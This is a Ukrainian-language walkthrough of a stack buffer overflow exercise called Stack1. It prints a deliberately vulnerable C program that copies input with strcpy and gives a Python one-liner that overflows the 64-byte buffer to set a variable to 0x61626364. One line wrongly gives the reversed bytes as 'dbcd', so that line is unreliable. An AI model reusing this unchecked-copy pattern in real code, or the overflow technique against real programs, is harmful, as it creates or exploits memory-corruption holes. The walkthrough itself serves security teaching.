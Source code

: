 # STACK1

На цьому рівні розглядається концепція модифікації змінних до певних значень у програмі та спосіб розміщення змінних у пам’яті.

Вихідний код Stack1:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
Це завдання виглядає так само, як Stack0, за винятком того, що замість перевірки, чи modified  було змінено, програма перевіряє, чи ми встановили для нього шістнадцяткове значення 0x61626364.
Тут використовується функція strcpy замість функції gets, однак уразливість така сама, як і перевірка меж.

Таким чином, ми можемо вирішити це, поставивши 64 ‘a’, а потім чотири байти, що відповідають 0x61626364 (або 'abcd'). Проте слід памятати, що Кожне 4-байтове подвійне слово починається з останнього байта і працює назад.
Тож треба перевертути ці 4 байти в зворотньмому порядку 0x61626364 (або 'dbcd')

Виконаємо команду: 
```
run $(python -c "print 'a' * 64 + 'dcba'")

або 

./stack1 $(python -c "print('a' * 64 + 'dcba')")
```
Результат:

![image](https://user-images.githubusercontent.com/47494881/147470791-7174e4e4-5a85-409f-b6e5-0049ce9ec129.png)





